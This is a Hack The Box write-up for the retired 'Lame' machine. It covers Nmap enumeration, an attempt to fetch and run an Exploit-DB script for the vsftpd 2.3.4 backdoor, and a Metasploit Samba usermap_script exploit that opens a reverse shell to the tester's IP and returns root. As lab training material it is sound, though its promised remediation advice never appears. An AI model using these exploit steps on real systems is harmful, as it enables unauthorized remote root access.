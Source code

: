 
![](attachments/Pasted%20image%2020251016184744.png)

# Hack The Box: Lame (Retired Machine)

- [1. Executive Summary](#1-executive-summary)
- [2. Scanning & Enumeration](#2-scanning--enumeration)
	- [2.1 Port Scan](#21-port-scan)
		- [2.1.1 Output](#211-output)
- [3. Vulnerability Analysis](#3-vulnerability-analysis)
	- [3.1 Remote Shell Access with CVE-2011-2523](#31-remote-shell-access-with-cve-2011-2523)
		- [3.1.1 Fetch and Execute Script](#311-fetch-and-execute-script)
		- [3.1.2 Output](#312-output)
	- [3.2 Remote Command Execution with CVE-2007-2447](#32-remote-command-execution-with-cve-2007-2447)
		- [3.2.1 Launch and Configure Exploit](#321-launch-and-configure-exploit)
		- [3.2.2 Execute Exploit](#322-execute-exploit)
		- [3.2.3 Output](#323-output)
## 1. Executive Summary

This report outlines the penetration test conducted on the target host `lame.htb` under the HackTheBox environment. 

The goal was to identify vulnerabilities and provide recommendations for securing the system.

## 2. Scanning & Enumeration

### 2.1 Port Scan

The following Nmap command was executed:

```bash
nmap -Pn -sC -sV -oN lame.nmap -vv lame.htb
```

#### 2.1.1 Output

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-16 15:07 UTC
Nmap scan report for 10.129.33.67
Host is up (0.086s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m36s, deviation: 2h49m46s, median: 33s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-10-16T11:08:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 61.22 seconds
```

## 3. Vulnerability Analysis

### 3.1 Remote Shell Access with CVE-2011-2523

> vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp.
> 
> Source: https://www.cvedetails.com/cve/CVE-2011-2523

#### 3.1.1 Fetch and Execute Script

```bash
curl https://www.exploit-db.com/download/49757 -o CVE-2011-2523.py
```

```bash
python3 CVE-2011-2523.py lame.htb
```

#### 3.1.2 Output

```bash
# The command did not execute successfully, indicating potential issues that require further investigation.
```

### 3.2 Remote Command Execution with CVE-2007-2447

> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
>
>Source: https://www.cvedetails.com/cve/CVE-2007-2447


#### 3.2.1 Launch and Configure Exploit

```bash
msfconsole

use exploit/multi/samba/usermap_script
set RHOST lame.htb
set LHOST 10.10.14.48
```

#### 3.2.2 Execute Exploit

```bash
exploit
```

#### 3.2.3 Output 

```bash
[*] Started reverse TCP handler on 10.10.14.48:4444 
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.34.7:54082) at 2025-10-16 15:02:33 +0000

whoami
root
```